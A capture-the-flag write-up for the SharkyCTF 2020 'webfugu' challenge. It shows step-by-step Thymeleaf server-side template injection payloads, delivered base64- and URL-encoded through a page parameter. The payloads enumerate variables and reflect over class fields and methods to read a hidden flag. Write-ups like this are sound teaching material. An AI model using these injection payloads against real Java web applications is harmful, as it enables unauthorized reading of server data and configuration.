 # Problem Statement

A new site listing the different species of fugu fish has appeared on the net.
Used by many researchers, it is nevertheless vulnerable. Find the
vulnerability and exploit it to recover some of the website configuration.

Creator: MasterFox

http://webfugu.sharkyctf.xyz

# Solution

Load up the site press F12 to bring up dev tools. Hit refresh. Boom, something
interesting:

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_1.PNG)

Let's see the full content:
http://webfugu.sharkyctf.xyz/process?page=PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=

So, page is

PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI%2BIDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg%2BRGlzY292ZXJ5IHllYXI8L3RoPiA8dGg%2BRGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ%2BIDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ%2BIDwvdHI%2BIDwvdGFibGU%2BIDwvZGl2PiAgICAgIAo=  
  
This looks like a Base64 encoding, but with a twist (notice the %2 and
probably others). So I suspect it's a url encoding of a base64 encoding, if
that makes sense. Let's see (use any online or commandline tool)

After url decoding:

PGRpdj4gPHRhYmxlIGJvcmRlcj0iMSI+IDx0cj4gPHRoPk5hbWU8L3RoPiA8dGg+RGlzY292ZXJ5IHllYXI8L3RoPiA8dGg+RGlzY292ZXJlciBuYW1lPC90aD4gPC90cj4gPHRyIHRoOmVhY2ggPSJmaXNoIDogJHtmaXNoZXN9Ij4gPHRkIHRoOnV0ZXh0PSIke2Zpc2gubmFtZX0iPi4uLjwvdGQ+IDx0ZCB0aDp1dGV4dD0iJHtmaXNoLmRpc2NvdmVyeVllYXJ9Ij4uLi48L3RkPiA8dGQgdGg6dXRleHQ9IiR7ZmlzaC5kaXNjb3ZlcmVyTmFtZX0iPi4uLjwvdGQ+IDwvdHI+IDwvdGFibGU+IDwvZGl2PiAgICAgIAo=  
  
Much better, let's base64 decode:

   <div> <table border="1"> <tr> <th>Name</th> <th>Discovery year</th>
<th>Discoverer name</th> </tr> <tr th:each ="fish : ${fishes}"> <td
th:utext="${fish.name}">...</td> <td th:utext="${fish.discoveryYear}">...</td>
<td th:utext="${fish.discovererName}">...</td> </tr> </table> </div>  
  
Hard to read, let's pretty print (we'll base64+url encode either way, it's
better to see the structure easier):

   <div>  
      <table border="1">  
         <tr>  
            <th>Name</th>  
            <th>Discovery year</th>  
            <th>Discoverer name</th>  
         </tr>  
         <tr th:each ="fish : ${fishes}">  
            <td th:utext="${fish.name}">...</td>  
            <td th:utext="${fish.discoveryYear}">...</td>  
            <td th:utext="${fish.discovererName}">...</td>  
         </tr>  
     </table>  
   </div>

OCD satisfied. On to WTH is this? th:each? I've never seen that. Let's Google:

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_2.PNG)

Thymeleaf. Hmm Thymeleaf

   Thymeleaf is a modern server-side Java template engine for both web and
standalone environments. Thymeleaf's main goal is to bring elegant  
  
Cool, so Thymeleaf is our new friend who will do our work for us. On to
StackOverflow:

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_3.PNG)

Click first link, see a payload vaguely similar in structure to our own html:

   <table>  
       <tr th:each="var : ${#vars.getVariableNames()}">  
           <td th:text="${var}"></td>  
           <td th:text="${#vars.getVariable(var)}"></td>  
       </tr>  
       ....  
   </table>

Let's try to make a payload (in the actual CTF run the first tests were to put
arbitrary expressions in like ${3*7} to see if they get executed.)

   <div>  
      <table border="1">  
         <tr>  
            <th>Name</th>  
            <th>Discovery year</th>  
            <th>Discoverer name</th>  
         </tr>  
         <tr th:each ="var : ${#vars.getVariableNames()}">  
            <td th:utext="${var}"></td>  
            <td th:utext="${#vars.getVariable(var)}"></td>  
            <td th:utext="${3*2}"></td>  
         </tr>  
     </table>  
   </div>

One base64 encode + url encode later (paranoia perhaps urlencode is no longer
needed, since we got rid of some '...' strings in the xml, but in the end
process is process even when it's error prone and tedious), we get a payload
(not pasting the string result, as that can vary because of spacing). We then
apply that payload to:

   http://webfugu.sharkyctf.xyz/process?page=PGRpdj4K.....  
  
![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_4.PNG)

Last thing I wanted to see:"REDACTED", the dread of any CTF-er. :). Not giving
up yet, let's dig mnore  
  
   <div>  
   <table border="1">  
     <tr>  
        <th>Name</th>  
        <th>Discovery year</th>  
        <th>Discoverer name</th>  
     </tr>  
     <tr th:each ="field: ${fishes[0].class.declaredFields}">  
        <td th:utext="${field.name}"></td>  
        <td th:utext="${2*2}"></td>  
        <td th:utext="${3*3}"></td>  
     </tr>  
   </table>  
   </div>

Which got us:

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_5.PNG)

Dig for the flag class too

   <div>  
   <table border="1">  
     <tr>  
        <th>Name</th>  
        <th>Discovery year</th>  
        <th>Discoverer name</th>  
     </tr>  
     <tr th:each ="field: ${flag.class.declaredFields}">  
        <td th:utext="${field.name}"></td>  
        <td th:utext="${field}"></td>  
        <td th:utext="${3*3}"></td>  
     </tr>  
   </table>  
   </div>  
  
Which gets us:  
  
![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_6.PNG)  
  
Aargh! A private field. I spent the next hours fixated on the fact that it's
private and trying to find a way to reflect into it (perhaps setting
"flag.class.getField("content").setAccessible(true)" before attempting to call
flag.class.getField("content").getValue(flag)". If confused, read up on Java
Reflection. And I fixated and fixated and fixated.

Luckily, at some point a friend of mine (randomly talking to on phone), who's
more into Java, asks me: "what about methods?"

   <div>  
   <table border="1">  
     <tr>  
        <th>Name</th>  
        <th>Discovery year</th>  
        <th>Discoverer name</th>  
     </tr>  
     <tr th:each ="method: ${flag.class.getMethods()}">  
        <td th:utext="${method.name}"></td>  
        <td th:utext="${method}"></td>  
        <td th:utext="${3*3}"></td>  
     </tr>  
   </table>  
   </div>  
  
Which gets us:

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_7.PNG)

Ha! there is a method called getContent() for the flag class. Overthinker that
I am I tried to reflect more :) field.class.getMethod("getContent",
flag.class).invoke(flag) and other crazy shenanigans all ending in 500's.

But at some point, I stopped and realized the extent of my shortsightedness (I
probably could have "guessed" the answer much earlier had I had a Java
background), as I began suspecting that I could do what I'm about to do with
the next payload. I wanted this payload so that when it was successful, I
could see the flag multiple times, so I don't miss it :)

   <div>  
   <table border="1">  
     <tr>  
        <th>Name</th>  
        <th>Discovery year</th>  
        <th>Discoverer name</th>  
     </tr>  
     <tr th:each ="method: ${flag.class.getMethods()}">  
        <td th:utext="${flag.getContent()}"></td>  
        <td th:utext="${flag.getContent()}"></td>  
        <td th:utext="${flag.getContent()}"></td>  
     </tr>  
   </table>  
   </div>

Wooop, there it iiis!

![](https://raw.githubusercontent.com/asd007/CTF_WRITEUPS/master/SharkyCTF-2020/Images/webfugu_8.PNG)

# Flag  
shkCTF{w31rd_fishes_6ee9f7aabf6689c6684ad9fd9ffbae5a}  

Original writeup (https://github.com/asd007/CTF_WRITEUPS).